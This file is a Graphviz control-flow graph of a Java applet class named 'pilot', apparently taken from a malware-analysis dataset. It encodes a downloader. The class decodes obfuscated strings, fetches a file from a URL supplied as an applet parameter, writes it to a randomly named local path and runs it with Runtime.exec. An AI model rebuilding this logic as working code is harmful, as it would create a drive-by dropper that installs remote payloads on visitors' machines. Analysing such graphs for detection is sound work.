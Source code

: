 digraph "" {
    "r0 := @this: pilot"
    "staticinvoke <A: void f()>"
    "r0 := @this: pilot"->"staticinvoke <A: void f()>";
    "load.r r0"
    "staticinvoke <A: void f()>"->"load.r r0";
    "push \"\u0013x\u001bq\u001b{\u001cx\u0004|\u001b`\u0003x\u0008b\u001b`\u001b`\u0017}\u0006}\u001ew\u0004|\u001b`\u0003x\u0004d\u0011a\u001bm\u001cn\u0006|\u001be\u0003bD&Z:\""
    "load.r r0"->"push \"\u0013x\u001bq\u001b{\u001cx\u0004|\u001b`\u0003x\u0008b\u001b`\u001b`\u0017}\u0006}\u001ew\u0004|\u001b`\u0003x\u0004d\u0011a\u001bm\u001cn\u0006|\u001be\u0003bD&Z:\"";
    "staticinvoke <pilot: java.lang.String f(java.lang.String)>"
    "push \"\u0013x\u001bq\u001b{\u001cx\u0004|\u001b`\u0003x\u0008b\u001b`\u001b`\u0017}\u0006}\u001ew\u0004|\u001b`\u0003x\u0004d\u0011a\u001bm\u001cn\u0006|\u001be\u0003bD&Z:\""->"staticinvoke <pilot: java.lang.String f(java.lang.String)>";
    "push \"v\u0002v\u001b~\u0001n\u0007v\u0019,\u0015\\\"\u001ak\""
    "staticinvoke <pilot: java.lang.String f(java.lang.String)>"->"push \"v\u0002v\u001b~\u0001n\u0007v\u0019,\u0015\\\"\u001ak\"";
    "push \"v\u0002v\u001b~\u0001n\u0007v\u0019,\u0015\\\"\u001ak\""->"staticinvoke <pilot: java.lang.String f(java.lang.String)>";
    "store.r r0"
    "staticinvoke <pilot: java.lang.String f(java.lang.String)>"->"store.r r0";
    "virtualinvoke <pilot: java.lang.String getParameter(java.lang.String)>"
    "store.r r0"->"virtualinvoke <pilot: java.lang.String getParameter(java.lang.String)>";
    "store.r r3"
    "virtualinvoke <pilot: java.lang.String getParameter(java.lang.String)>"->"store.r r3";
    "store.r r3"->"load.r r0";
    "load.r r3"
    "load.r r0"->"load.r r3";
    "staticinvoke <pilot: java.lang.String f(java.lang.String,java.lang.String)>"
    "load.r r3"->"staticinvoke <pilot: java.lang.String f(java.lang.String,java.lang.String)>";
    "staticinvoke <pilot: java.lang.String f(java.lang.String,java.lang.String)>"->"store.r r3";
    "new java.lang.StringBuilder"
    "store.r r3"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push 0"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push 0";
    "push \"\u001bv\u0004uGf\u001b<\u0007x\u0004v\u0000}\""
    "push 0"->"push \"\u001bv\u0004uGf\u001b<\u0007x\u0004v\u0000}\"";
    "push \"\u001bv\u0004uGf\u001b<\u0007x\u0004v\u0000}\""->"staticinvoke <pilot: java.lang.String f(java.lang.String)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "staticinvoke <pilot: java.lang.String f(java.lang.String)>"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder insert(int,java.lang.String)>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder insert(int,java.lang.String)>";
    "staticinvoke <java.lang.Math: double random()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder insert(int,java.lang.String)>"->"staticinvoke <java.lang.Math: double random()>";
    "push 1000.0"
    "staticinvoke <java.lang.Math: double random()>"->"push 1000.0";
    "mul.d"
    "push 1000.0"->"mul.d";
    "push 3.0"
    "mul.d"->"push 3.0";
    "staticinvoke <java.lang.Math: double pow(double,double)>"
    "push 3.0"->"staticinvoke <java.lang.Math: double pow(double,double)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(double)>"
    "staticinvoke <java.lang.Math: double pow(double,double)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(double)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(double)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r0";
    "new java.net.URL"
    "store.r r0"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r3";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r r3"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>";
    "store.r r21"
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"->"store.r r21";
    "new java.io.FileOutputStream"
    "store.r r21"->"new java.io.FileOutputStream";
    "store.r $r13"
    "new java.io.FileOutputStream"->"store.r $r13";
    "load.r $r13"
    "store.r $r13"->"load.r $r13";
    "load.r $r13"->"load.r r0";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "load.r r0"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "push 51200"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"push 51200";
    "newarray"
    "push 51200"->"newarray";
    "newarray"->"store.r r3";
    "load.r r21"
    "store.r r3"->"load.r r21";
    "store.r $r22"
    "load.r r21"->"store.r $r22";
    "load.r $r22"
    "store.r $r22"->"load.r $r22";
    "load.r $r22"->"load.r r3";
    "load.r r3"->"push 0";
    "push 0"->"load.r r3";
    "arraylength"
    "load.r r3"->"arraylength";
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"
    "arraylength"->"virtualinvoke <java.io.InputStream: int read(byte[],int,int)>";
    "store.i $i2"
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"->"store.i $i2";
    "load.i $i2"
    "store.i $i2"->"load.i $i2";
    "push -1"
    "load.i $i2"->"push -1";
    "ifcmpeq.i load.r r21"
    "push -1"->"ifcmpeq.i load.r r21";
    "ifcmpeq.i load.r r21"->"load.r r21";
    "load.r r21"->"store.r $r22";
    "store.r $r22"->"load.r $r13";
    "load.r $r13"->"load.r r3";
    "load.r r3"->"push 0";
    "push 0"->"load.i $i2";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"
    "load.i $i2"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "goto load.r $r22"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"goto load.r $r22";
    "goto load.r $r22"->"store.r r0";
    "return"
    "store.r r0"->"return";
    "ifcmpeq.i load.r r21"->"load.r r21";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r21"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"load.r $r13";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r13"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "push 3"
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"push 3";
    "push 3"->"newarray";
    "newarray"->"store.r r3";
    "store.r r3"->"load.r r3";
    "load.r r3"->"push 0";
    "push \"q\u001eqZw\u0011j\""
    "push 0"->"push \"q\u001eqZw\u0011j\"";
    "push \"q\u001eqZw\u0011j\""->"staticinvoke <pilot: java.lang.String f(java.lang.String)>";
    "arraywrite.r"
    "staticinvoke <pilot: java.lang.String f(java.lang.String)>"->"arraywrite.r";
    "arraywrite.r"->"load.r r3";
    "push 1"
    "load.r r3"->"push 1";
    "push \"FL\""
    "push 1"->"push \"FL\"";
    "push \"FL\""->"staticinvoke <pilot: java.lang.String f(java.lang.String)>";
    "staticinvoke <pilot: java.lang.String f(java.lang.String)>"->"arraywrite.r";
    "arraywrite.r"->"load.r r3";
    "push 2"
    "load.r r3"->"push 2";
    "push 2"->"load.r r0";
    "load.r r0"->"arraywrite.r";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "arraywrite.r"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"load.r r3";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String[])>"
    "load.r r3"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String[])>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String[])>"->"store.r r0";
    "store.r r0"->"load.r r0";
    "ifnull load.r r0"
    "load.r r0"->"ifnull load.r r0";
    "ifnull load.r r0"->"load.r r0";
    "virtualinvoke <java.lang.Process: int waitFor()>"
    "load.r r0"->"virtualinvoke <java.lang.Process: int waitFor()>";
    "pop"
    "virtualinvoke <java.lang.Process: int waitFor()>"->"pop";
    "pop"->"return";
}
